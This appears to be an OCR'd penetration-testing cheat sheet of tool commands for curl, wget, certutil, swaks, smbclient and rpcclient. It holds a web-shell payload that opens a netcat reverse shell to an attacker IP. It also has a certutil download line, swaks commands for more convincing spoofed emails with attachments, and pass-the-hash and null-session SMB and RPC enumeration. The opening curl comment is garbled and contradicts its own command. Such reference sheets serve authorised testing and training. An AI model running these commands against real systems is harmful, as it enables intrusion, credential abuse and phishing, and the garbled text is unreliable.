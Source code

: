 ```bash
# -O (capital O) tells curl to save the file with the same name as in the URL. rent name
curl https://[target_URL] -o [filename]
```
- <mark>POST Data with URL-Encoding</mark>
```bash
# Best Used with a Web Shell
curl https://[target_URL] --data-urlencode "cmd=nc 192.168.50.129 6666 -e /bin/bash"
```
 ### wget
-  <mark>Basic Use</mark>
```bash
wget http://[target_URL]
# Recursive download, suitable for path with directory listing enabled
wget --no-parent -r http://[target_URL]
# Recursive download for FTP service
wget -m --no-passive-ftp ftp://[Username]:[Password]@[IP]
```
 ### certutil
-  <mark>Basic Use</mark>
```bash
certutil -urlcache -f http://[target_URL] [filename]
```
## swaks
- <mark>Basic Use</mark>
```bash
# No Authentication
swaks -t [Receiver] --from [Sender] --attach @[Attachment] --server [Server] --suppress-data
# Authentication
swaks -t [Receiver] --from [Sender] --attach @[Attachment] --server [Server] --suppress-data -ap
# More Convincing Email
swaks -t [Receiver] --from [Sender] --attach @[Attachment] --server [Server] --body @[Body] --header "[Header]" --suppress-data -ap
```
## smbclient
- <mark>Basic Use</mark>
```bash
# List shares on a target machine
smbclient -L //[TARGET] -U [DOMAIN]/[USERNAME]%[PASWORD]
smbclient -L //[TARGET] -U [DOMAIN]/[USERNAME] --pw-nt-hash [NTLM_Hash]
# Connect to a specific share
smbclient //[TARGET]/[SHARE_NAME] -U [DOMAIN]/[USERNAME]%[PASWORD]
```
- <mark>Test Annonymous/Guest Login</mark>
```bash
#Guest
smbclient -L //[TARGET] -U guest%
#Annonymous
smbclient -L //[TARGET] -U guest -N
```## rpcclient
- <mark>Basic Use</mark>
```bash
rpcclient -U [DOMAIN]/[USERNAME]%[PASWORD] [IP]
rpcclient -U "" -N [IP]
```
- <mark>Useful Commands</mark>
```bash
# Get information about the DC
srvinfo
# Domain informations
enumdomains
querydominfo
lsaquery
```